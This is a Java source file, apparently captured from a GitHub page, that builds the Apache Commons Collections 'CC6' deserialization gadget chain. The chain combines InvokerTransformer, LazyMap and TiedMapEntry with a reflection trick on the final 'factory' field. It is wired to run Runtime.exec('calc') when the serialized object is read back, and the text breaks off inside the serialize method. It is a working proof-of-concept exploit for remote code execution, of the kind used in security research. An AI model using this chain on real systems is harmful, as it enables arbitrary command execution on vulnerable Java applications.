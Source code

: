 ```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;


public class CC6TiedMapEntry2 extends AbstractTranslet {
    public CC6TiedMapEntry2() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("cc6.ser");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        
    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
```
